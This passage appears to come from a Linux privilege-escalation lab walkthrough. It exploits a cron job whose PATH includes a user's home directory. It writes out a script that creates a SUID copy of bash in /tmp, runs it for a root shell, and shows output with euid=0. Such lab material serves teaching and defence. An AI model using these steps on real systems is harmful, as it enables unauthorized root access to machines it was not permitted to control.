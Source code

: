 **Explanation:**  
The PATH variable defines the directories the system will search when executing commands. Notably, `/home/user` is included in the PATH, which is the home directory of the non-privileged user. This misconfiguration can be exploited by placing malicious scripts in this directory, as they may be executed by cron jobs running with higher privileges.

### Step 2: Create a Malicious Script in the User’s Home Directory

Create a script named `overwrite.sh` in your home directory with the following contents:

```bash
cat > /home/user/overwrite.sh << EOF
#!/bin/bash

cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
EOF
```

**Explanation:**  
This script copies `/bin/bash` to `/tmp/rootbash` and sets the SUID permission, allowing it to be run with root privileges.

### Step 3: Ensure the Script is Executable

Make the script executable:

```bash
chmod +x /home/user/overwrite.sh
```

### Step 4: Wait for the Cron Job to Run

Since `/home/user` is in the PATH, the cron job that calls `overwrite.sh` will execute your script instead of the legitimate one. After waiting for the cron job to run (it executes every minute), use the following command to gain a root shell:

```bash
/tmp/rootbash -p
```

**Sample Output:**

```bash
rootbash-4.1# id
uid=1000(user) gid=1000(user) euid=0(root) egid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)
```

**Explanation:**  
This output shows that the shell is running with root privileges (`euid=0`), allowing you to execute commands as the root user.

### Cleanup

Remove the `/tmp/rootbash` executable and the malicious `overwrite.sh` script, then exit the root shell:
